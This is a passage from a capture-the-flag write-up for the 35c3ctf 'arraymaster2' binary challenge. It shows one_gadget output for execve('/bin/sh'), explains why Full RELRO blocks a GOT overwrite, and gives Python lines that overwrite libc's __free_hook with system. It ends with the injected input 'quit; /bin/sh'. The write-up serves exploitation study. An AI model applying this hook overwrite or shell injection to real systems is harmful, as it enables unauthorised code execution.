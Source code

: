 This worked locally but not on the server, probably due to the different constraints posed by the different versions of LibC:
```console
root@kali:/media/sf_CTFs/35c3ctf/arraymaster2# one_gadget libc-2.27.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c        execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
root@kali:/media/sf_CTFs/35c3ctf/arraymaster2# one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x4345e execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x434b2 execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xe42ee execve("/bin/sh", rsp+0x60, environ)
constraints:
  [rsp+0x60] == NULL
```

So, the next thing I tried to do was override a GOT entry with `system`, however this failed since the Full RELRO is enabled:
> Full RELRO makes the entire GOT read-only which removes the ability to perform a "GOT overwrite" attack, where the GOT address of a function is overwritten with the location of another function or a ROP gadget an attacker wants to run. ([Source](https://ctf101.org/binary-exploitation/relocation-read-only/))

The last resort was to override `__free_hook`:
> The value of this variable is a pointer to function that free uses whenever it is called. ([Source](https://www.gnu.org/software/libc/manual/html_node/Hooks-for-Malloc.html))

It can be modified using the following logic:
```python
set_entry(p, "A", 6, libc.symbols["__free_hook"])
set_entry(p, "B", 0, libc.symbols["system"])
```

The first line makes B's `arr_ptr` point to `__free_hook`, and the second one performs `*(arr_ptr + 0) = &system`. So the next time someone calls `free` on some pointer, LibC will call `__free_hook` which points to `system` and `system` will execute whatever the freed buffer points to.

I chose to provide the following line as an input command:

```
quit; /bin/sh
```
